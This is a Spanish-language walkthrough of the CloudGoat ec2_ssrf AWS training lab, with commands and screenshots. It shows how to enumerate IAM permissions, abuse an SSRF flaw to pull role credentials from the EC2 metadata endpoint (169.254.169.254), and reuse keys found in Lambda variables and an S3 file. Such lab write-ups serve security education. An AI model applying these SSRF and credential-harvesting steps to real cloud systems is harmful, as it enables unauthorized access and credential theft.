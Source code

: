 ```yaml
---
description: 'Lab: CloudGoat'
---
```


# EC2\_SSRF

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio <mark style="color:green;">**cloudgoat**</mark> el escenario ec2\_ssrf. En este escenario comenzaremos con el usuario SOLUS que tiene bajos privilegios y luego de una enumeración sobre la infraestructura, lograremos identificar un aplicativo web que está alojado en un EC2 vulnerable a ataques SSRF. Luego de aprovechar esta vulnerabilidad, lograremos comprometer unas credenciales de acceso por medio del servicio de metadatos

{% hint style="danger" %}
El desarrollo de este ejercicio puede llegar a consumir recursos económicos dentro de las cuentas de AWS.
{% endhint %}

{% embed url="https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/ec2_ssrf" %}

<mark style="color:green;">**Objetivo**</mark>: Invocar la función de Lambda "cg-lambda-\[ CloudGoat ID ]".

### Configuración Inicial

Checar instalación de CloudGoad en:

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

Lanzar el escenario con

```bash
./cloudgoat.py create ec2_ssrf
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Configurar las credenciales iniciales al finalizar el comando anterior

```
aws configure --profile solus
```

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

### Explotación

Como en toda fase de pentesting, primero se inicia con la enumeración, en este caso se hará uso de la herramienta [<mark style="color:green;">**cliam**</mark>](https://github.com/securisec/cliam), pero se puede hacer de manera manual o con otras herramientas:

```bash
cliam aws enumerate iam s3 ec2 lambda --profile solus
```

<figure><img src="../../../.gitbook/assets/image (3) (5).png" alt=""><figcaption></figcaption></figure>

Al parecer el usuario tiene capacidad de _list_ sobre el servicio lambda de AWS, el objetivo de del laboratorio es ejecutar la función "cg-lambda-\[ CloudGoat ID ]", se procede a buscar e intentar ejecutar la función:

```
aws lambda list-functions --profile solus
```

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Como se observa en la salida, se puede saber el nombre de la función "<mark style="color:green;">**cg-lambda-ec2\_ssrf\_cgiddojqir0rks**</mark>". También se observar variables de ambiente que contiene las credenciales del rol que se conecta con la instancia EC2, procedemos a intentar ejecutar la función

{% code overflow="wrap" %}
```
aws lambda invoke --function-name cg-lambda-ec2_ssrf_cgiddojqir0rks ./out.txt --profile solus
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

Al parecer, el usuario inicia no tiene permisos de ejecución sobre lambdas, se procede a configurar las llaves encontradas en la función y enumerar:

```
aws configure --profile lambda
aws sts get-caller-identity --profile lambda
```

<figure><img src="../../../.gitbook/assets/image (26) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al realizar la enumeración, parece que el perfil lambda tiene full permisos en los servicios EC2

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

Se procede intentar listar las instancias en la nube

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Existe una instancia en la nube que ofrece una IP publica con un DNS, se procede a realizar OSINT sobre ese dominio para saber que servicios ofrece:

```
sudo nmap -sS -sV -T4 -Pn domain
```

<figure><img src="../../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

Al parecer, la computadora que corre sobre el servicio EC2 es un Ubuntu que expone el puerto 80 para dar servicio de http con el framework Node.js, procedamos a consumir ese servicio por medio de un navegador web:

<figure><img src="../../../.gitbook/assets/image (42) (1).png" alt=""><figcaption></figcaption></figure>

Al entrar por la web, el aplicativo expone un error indicando sobre un parámetro faltante en la petición, al colocarlo se obtiene lo siguiente:

<figure><img src="../../../.gitbook/assets/image (5) (2) (3).png" alt=""><figcaption></figcaption></figure>

El aplicativo, parece hacer una llamada sobre el parámetro y exponer  el valor de entrada en el aplicativo, en un péntesting web se puede realizar diferentes ataques, como XSS, OS Inyection, entre otros, en este caso el aplicativo es claro que trata de hacer una petición a otro sitio, al coloral el valor www.google.com se puede observar esta acción:

<figure><img src="../../../.gitbook/assets/image (29) (2).png" alt=""><figcaption></figcaption></figure>

Se tiene que hacer explotación de la vulnerabilidad conocida como SSFF. La falsificación de solicitudes del lado del servidor (también conocida como SSRF) es una vulnerabilidad de seguridad web que permite a un atacante inducir a la aplicación del lado del servidor a realizar solicitudes a una ubicación no deseada.

{% embed url="https://portswigger.net/web-security/ssrf" %}

Como lo estudiado previamente en este blog en la entrada:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

Existe un End Point en AWS al cual todas las maquinas EC2 puede consumir de manera interna para la consulta de los metadatos, estos metadatos son ocupados por las instancias para configurar o administrar la instancia en ejecución, estos metadatos de instancia se dividen en categorías, como, por ejemplo, nombre de host, eventos y grupos de seguridad.

{% embed url="https://docs.aws.amazon.com/es_es/AWSEC2/latest/UserGuide/ec2-instance-metadata.html" %}

Como indica la documentación de amazon AWS, estos metadatos no está protegidos criptográficamente, entonces aprovechando la vulnerabilidad del sitio web, se puede realizar una llamada sobre en endpoint `http://169.254.169.254/latest/meta-data` para tratar de consumir estos metadatos.

{% code overflow="wrap" %}
```
curl http://domain.com/?url=http://169.254.169.254/latest/meta-data
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

En este punto, se pueden listar las carpetas y la información valiosa, un servicio que es interesante de consumir es el siguiente:

{% code overflow="wrap" %}
```
curl http://domain.com/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/rol
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Esta api, permite generar nuevas llaves de acceso para el rol / usuario que administra la Instancia EC2, se procede a configurarlas y enumerar

<figure><img src="../../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

¿Qué hacer cuando se tienen credenciales? enumerar, enumerar y enumerar

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al parecer este rol solo tiene acceso a listar buckets, pues listemos buckets s3

```
aws s3 ls --profile ec2
```

<figure><img src="../../../.gitbook/assets/image (11) (3) (1).png" alt=""><figcaption></figcaption></figure>

¿Se podrá listar el contendio y descargar archivos? ¡Pongámoslo a prueba !

{% code overflow="wrap" %}
```
aws s3 ls s3://cg-secret-s3-bucket-<cloudgoat_id> --profile ec2

aws s3 cp s3://cg-secret-s3-bucket-<cloudgoat_id>/admin-user.txt ./ --profile ec2

cat admin-user.txt
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

Al parecer, este bucket es para guardar un archivo muy secreto donde contiene las credenciajes de administrador de algo... encontramos credenciales, procedemos a configurarlas y usarlas, a ver si con este usuario podemos ejecutar la función inicial:

<figure><img src="../../../.gitbook/assets/image (4) (1) (5).png" alt=""><figcaption></figcaption></figure>

¿Conque shepard ? ejecutemos la función lambda inicial y obtengamos la bandera&#x20;

<figure><img src="../../../.gitbook/assets/image (12) (3).png" alt=""><figcaption></figcaption></figure>







